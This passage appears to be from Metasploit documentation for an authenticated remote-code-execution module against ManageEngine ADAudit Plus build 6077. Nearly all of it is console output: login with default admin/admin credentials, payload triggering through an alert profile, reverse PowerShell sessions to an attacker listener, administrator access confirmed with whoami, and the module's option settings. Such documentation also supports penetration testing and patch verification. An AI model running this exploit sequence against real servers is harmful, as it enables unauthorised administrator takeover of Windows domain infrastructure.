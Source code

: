```
[*] Attempting to authenticate to ADAuditPlus Authentication with username: admin and password: admin
[*] Found 1 configured domain(s): daforest.com
[+] Successfully authenticated
[+] The target appears to be vulnerable. The target is ADAudit Plus 6077
[*] Attempting to create an alert profile
[+] Successfully created alert profile fw4hKcxDG
[*] Attempting to trigger the payload via an authentication attempt for domain DAFOREST using incorrect credentials.
[*] Received expected reply when trying to trigger the payload. Let's hope we get a shell...
[*] Powershell session session 2 opened (192.168.204.128:4444 -> 192.168.204.132:62845) at 2023-05-04 19:42:57 -0500
[*] Powershell session session 1 opened (192.168.204.128:4444 -> 192.168.204.132:62844) at 2023-05-04 19:42:57 -0500
[*] Attempting to delete alert profile fw4hKcxDG
[+] Successfully deleted alert profile fw4hKcxDG

PS C:\Program Files\ManageEngine\ADAudit Plus\bin> whoami
daforest\administrator
PS C:\Program Files\ManageEngine\ADAudit Plus\bin> ^X^Z
Background session 2? [y/N]  y
msf exploit(windows/http/manageengine_adaudit_plus_authenticated_rce) > sessions

Active sessions
===============

  Id  Name  Type                Information                      Connection
  --  ----  ----                -----------                      ----------
  1         powershell windows  Administrator @ WIN-BRSHGJGIDFM  192.168.204.128:4444 -> 192.168.204.132:62844 (192.168.204.132)
  2         powershell windows  Administrator @ WIN-BRSHGJGIDFM  192.168.204.128:4444 -> 192.168.204.132:62845 (192.168.204.132)

msf exploit(windows/http/manageengine_adaudit_plus_authenticated_rce) >
```

### ManageEngine ADAudit Plus build 6077 running on Windows Server 2022 - Meterpreter Payload
```
msf > use exploit/windows/http/manageengine_adaudit_plus_authenticated_rce
[*] Using configured payload cmd/windows/powershell_reverse_tcp
msf exploit(windows/http/manageengine_adaudit_plus_authenticated_rce) > set RHOSTS 192.168.204.132
RHOSTS => 192.168.204.132
msf exploit(windows/http/manageengine_adaudit_plus_authenticated_rce) > set LHOST 192.168.204.128
LHOST => 192.168.204.128
msf exploit(windows/http/manageengine_adaudit_plus_authenticated_rce) > show options

Module options (exploit/windows/http/manageengine_adaudit_plus_authenticated_rce):

Name         Current Setting             Required  Description
   ----         ---------------             --------  -----------
AUTH_DOMAIN  ADAuditPlus Authentication  yes       ADAudit Plus authentication domain (default is ADAuditPlus Authentication)
PASSWORD     admin                       yes       Password to authenticate with
Proxies                                  no        A proxy chain of format type:host:port[,type:host:port][...]
RHOSTS       192.168.204.132             yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
RPORT        8081                        yes       The target port (TCP)
SSL          false                       no        Negotiate SSL/TLS for outgoing connections
TARGETURI    /                           yes       The base path to ManageEngine ADAudit Plus
USERNAME     admin                       yes       Username to authenticate with
VHOST                                    no        HTTP server virtual host
```